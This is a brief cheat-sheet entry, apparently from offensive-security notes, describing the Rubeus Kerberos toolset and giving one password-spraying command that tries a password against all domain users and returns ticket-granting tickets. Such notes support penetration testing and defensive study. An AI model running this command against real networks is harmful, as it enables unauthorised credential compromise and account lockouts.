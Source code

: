 ```yaml
---
title: RUBEUS
summary: "A C# toolset for raw Kerberos interaction and abuses."
description: "A C# toolset for raw Kerberos interaction and abuses."
---
```


**[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)**

## Password Spraying


 > 
 > **<font color=red>Rubeus.exe brute /password:</font>myPassword <font color=red>/noticket</font>**</br>
 > Spray a password against all users in current domain and return the .kirbi TGT of users that use this password.
